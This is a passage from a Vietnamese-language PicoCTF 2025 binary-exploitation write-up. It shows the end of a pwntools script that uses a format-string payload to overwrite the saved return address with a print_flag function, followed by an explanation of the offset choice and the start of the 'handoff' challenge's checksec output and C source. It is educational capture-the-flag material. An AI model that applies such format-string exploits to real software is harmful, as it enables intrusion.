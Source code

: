 ```py
    offset = 6
    write = {
        stack - 8: exe.sym.print_flag + 5
    }

    pl = fmtstr_payload(offset, write, write_size='short')
    # print(pl)
    p.sendline(pl)

    p.sendline(b'exit')

    p.interactive()

if __name__ == '__main__':
    exploit()
```

Trong exploit trên mình tin chọn 2 địa chỉ uy tín nhất và khá ít khi thay đổi đó là `saved rip` và `saved rbp`, từ đó mình leak được địa chỉ của `main` và `stack`, việc ta làm là dùng `fmtstr_payload` để write `saved rip` thành địa chỉ `print_flag`. **Lưu ý:** Offset trong `fmtstr_payload` là `offset` tính từ `top stack` đến `input`. Và khi ta `debug` ta thấy input của ta được đặt tại `rsp` tức `top stack` luôn nên offset sẽ là `6`. Còn tại sao nó là 6 thì hãy xem video <(")

## handoff

### Challenge Description

![alt text](/img/PicoCTF/image-4.png)

### Analysis

```sh
[*] '/home/alter/CTFs/2025/PicoCTF/pwn/handoff/handoff'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>

#define MAX_ENTRIES 10
#define NAME_LEN 32
#define MSG_LEN 64

typedef struct entry {
	char name[8];
	char msg[64];
} entry_t;

void print_menu() {
	puts("What option would you like to do?");
	puts("1. Add a new recipient");
	puts("2. Send a message to a recipient");
	puts("3. Exit the app");
```